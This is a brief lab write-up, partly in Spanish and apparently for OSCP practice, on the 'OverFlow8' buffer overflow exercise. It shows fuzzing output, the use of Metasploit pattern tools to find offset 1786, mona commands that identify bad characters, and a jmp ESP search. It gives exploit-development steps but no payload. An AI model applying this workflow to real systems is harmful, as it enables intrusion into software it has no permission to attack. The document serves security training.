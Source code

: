 # OverFlow8

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing with 1800 bytes
Fuzzing crashed at 1800 bytes
```

```php
❯ msf-pattern_create -l 1800
```

```php
❯ msf-pattern_offset -q 68433568
[*] Exact match at offset 1786

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011EFA18
!mona bytearray -cpb "\x00\x1d"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00DDFA18
!mona bytearray -cpb "\x00\x1d\x2e"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0118FA18
!mona bytearray -cpb "\x00\x1d\x2e\xc7"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0100FA18
!mona bytearray -cpb "\x00\x1d\x2e\xc7\xee"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FFFA18
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```

![20240228214102.png](20240228214102.png)
